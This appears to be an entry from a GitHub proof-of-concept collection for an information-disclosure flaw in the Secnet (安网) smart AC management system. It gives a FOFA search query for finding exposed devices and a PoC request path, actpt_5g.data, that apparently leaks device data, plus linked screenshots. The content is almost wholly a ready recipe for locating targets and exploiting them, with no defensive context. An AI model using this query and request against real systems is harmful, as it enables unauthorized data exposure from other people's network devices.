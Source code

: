 ## Secnet安网 智能AC管理系统 actpt_5g 信息泄露

## fofa
```
title="安网-智能路由系统" || header="HTTPD_ac 1.0"
```
## poc
```
http://xxxxx/actpt_5g.data
```

![069c247466403f3336550f21bcea0ff4](https://github.com/wy876/POC/assets/139549762/205a328b-f4cf-41a6-8cc0-c8d74db79876)

![e06692e5a2926d80686685b5e8fec3c4](https://github.com/wy876/POC/assets/139549762/9caa2d80-b573-4638-b500-9bd87f642c51)

